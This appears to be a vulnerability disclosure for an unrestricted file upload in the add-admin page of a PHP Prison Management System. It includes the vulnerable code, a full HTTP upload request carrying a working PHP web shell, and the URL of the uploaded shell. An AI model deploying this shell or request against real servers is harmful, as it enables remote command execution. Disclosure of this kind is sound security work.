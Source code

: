 Prison Management System - File upload on (/Admin/add-admin.php) 

Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

Version: 

```
V1.0
```

Tested on: 

```
PHP, Apache, MySQL
```

Affected Page:

```
/Admin/add-admin.php
```

Using `$_FILES["avatar"]["name"]` as the filename on the server can lead to file upload attacks.

```
$image= addslashes(file_get_contents($_FILES['avatar']['tmp_name']));
$image_name= addslashes($_FILES['avatar']['name']);
$image_size= getimagesize($_FILES['avatar']['tmp_name']);
move_uploaded_file($_FILES["avatar"]["tmp_name"],"../uploadImage/Profile/" . $_FILES["avatar"]["name"]);
$location="uploadImage/Profile/" . $_FILES["avatar"]["name"];
```

Proof of vulnerability:

Upload a jpg, capture the packet, modify the file content to malicious code, and modify the file suffix to php

Request:

```
POST /Admin/add-admin.php HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/jxl,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42908713283576230551822620679
Content-Length: 1130
Origin: http://localhost:8888
Sec-GPC: 1
Connection: close
Referer: http://localhost:8888/Admin/add-admin.php
Cookie: PHPSESSID=n3ilei2mg7mov24l4ol9itjc14
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------42908713283576230551822620679
Content-Disposition: form-data; name="txtusername"

test
-----------------------------42908713283576230551822620679
Content-Disposition: form-data; name="txtfullname"

test
-----------------------------42908713283576230551822620679
Content-Disposition: form-data; name="txtpassword"

admin123
-----------------------------42908713283576230551822620679
Content-Disposition: form-data; name="txtphone"

1123123
-----------------------------42908713283576230551822620679
Content-Disposition: form-data; name="avatar"; filename="1.php"
Content-Type: image/jpeg

<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
-----------------------------42908713283576230551822620679
Content-Disposition: form-data; name="btncreate"


-----------------------------42908713283576230551822620679--
```

```
http://localhost:8888/uploadImage/Profile/1.php
```



<img width="903" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/30d6c8ab-2dc1-4939-8ca9-f06961284176">

